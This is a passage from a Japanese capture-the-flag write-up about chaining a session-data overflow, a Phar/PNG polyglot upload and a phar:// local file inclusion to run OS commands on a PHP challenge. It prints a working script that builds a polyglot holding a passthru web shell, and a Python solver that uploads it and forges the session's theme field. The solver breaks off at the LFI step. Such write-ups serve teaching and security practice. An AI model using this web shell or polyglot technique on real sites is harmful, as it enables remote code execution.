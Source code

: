 この flash メッセージはセッションに保存されているようです! 様々なデータが既に保存されている状態で flash メッセージを表示させれば、データは 72 文字を超えるでしょう。

さて、セッションデータを操作できるようになったところで、どうすれば `<?php include($session->get('theme', 'light') . '.css'); ?>` で LFI ができるか考えていきましょう。`upload.php` は PNG しか受け付けませんが、このような制限があっても LFI はできるでしょうか。

PHP には [Phar](https://www.php.net/manual/ja/intro.phar.php) という複数のファイルをひとつにまとめることができるファイル形式があります。Phar 向けのストリームラッパーも存在しており、`b.txt` というファイルを含む `a.phar` という Phar アーカイブがあるとき、`file_get_contents('phar://a.phar/b.txt')` のように `phar://` スキームを利用することでアクセスすることができます。

Phar のヘッダはある程度自由で、`<?php __HALT_COMPILER(); ?>` で終わってさえいれば、その前に JPEG が PNG があろうが Phar として解釈させることができます。このため、Phar と PNG の polyglot も作ることができます。`exploit.css` のように `.css` という拡張子を持った PHP スクリプトを含む Phar と PNG の polyglot を作成し、これをセッションの `theme` にセットすれば LFI ができるはずです。

これらの脆弱性を組み合わせて、以下のようなスクリプトで OS コマンドを実行することができました。

`make_exploit.php`

```php
<?php
define('PNG_HEADER', hex2bin('89504e470d0a1a0a0000000d49484452000000400000004000'));

$phar = new Phar('exploit.phar');
$phar->startBuffering();
$phar->addFromString('exploit.css', '<?php passthru($_GET["cmd"]); ?>');
$phar->setStub(PNG_HEADER . '<?php __HALT_COMPILER(); ?>');
$phar->stopBuffering();
```

`solver.py`

```python
import base64
import binascii
import json
import os
import re
import requests
import urllib.parse

URL = 'http://(target)/'

def b64decode(s):
  return base64.urlsafe_b64decode(s + '=' * (3 - (3 + len(s)) % 4))

# make exploit.phar
os.system('php -d phar.readonly=0 make_exploit.php')

# sign in
sess = requests.Session()
username = binascii.hexlify(os.urandom(8)).decode()
sess.post(URL + 'signin.php', data={'name': username})

# upload exploit.phar as exploit.png
with open('exploit.phar', 'rb') as f:
  sess.post(URL + 'upload.php', files={'file': ('exploit.png', f)})

sessdata = sess.cookies['session'].split('.')[0]
data = json.loads(b64decode(sessdata))
avatar = data['avatar']

# print flash message
sess.get(URL + 'upload.php', allow_redirects=False)
sessdata, sig = sess.cookies['session'].split('.')
payload = b64decode(sessdata).replace(b'}}', '}},"theme":"phar://uploads/{}/exploit"}}'.format(avatar).encode())
sess.cookies.set('session', base64.b64encode(payload).decode().replace('=', '') + '.' + sig)

# LFI
```